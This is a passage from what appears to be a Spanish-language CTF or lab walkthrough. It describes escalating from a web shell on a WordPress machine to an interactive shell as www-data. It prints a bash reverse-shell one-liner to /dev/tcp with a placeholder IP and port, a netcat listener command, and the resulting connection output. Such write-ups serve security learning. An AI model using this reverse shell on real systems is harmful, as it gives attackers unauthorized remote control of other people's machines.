 Si entramos a ella veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (182) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tendremos una `shell` interactiva, por lo que haremos lo siguiente.

## Escalate user rafa

Vamos a enviarnos una `shell`.

```shell
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Lo ejecutamos el codigo anterior y si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 44308
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@454dd5633d8b:/var/www/html/wp-content/uploads$ whoami
whoami
www-data
```
